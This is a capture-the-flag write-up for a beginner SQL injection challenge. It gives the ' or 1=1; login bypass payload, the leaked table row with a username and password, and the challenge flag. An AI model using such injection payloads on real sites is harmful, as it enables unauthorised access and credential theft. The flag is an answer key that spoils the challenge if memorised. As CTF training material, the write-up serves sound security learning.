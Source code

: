 # Beginner - SQL (by Dax)

## 1 - The Most Basic Form of Injection.   

* **Track:** sql injection
* **Points:** 3

### Challenge

> SQL injection is probably one of the most common vectors of attack for poorly designed websites. This page is vulnerable to it. You can use username test and password test if you want to test the page before the injection.
> https://sqli.dax.hfctf.ca/  

### Solution

     ' or 1=1;

| userId | username | userpass | description |
| 1 | sp00ky | SwibAPCMuj34 | You found a flag! HF-nhnq0PRIVvjg3c6ZqJtBrbcXz98XCdJl |


### Flag

```
HF-nhnq0PRIVvjg3c6ZqJtBrbcXz98XCdJl
```
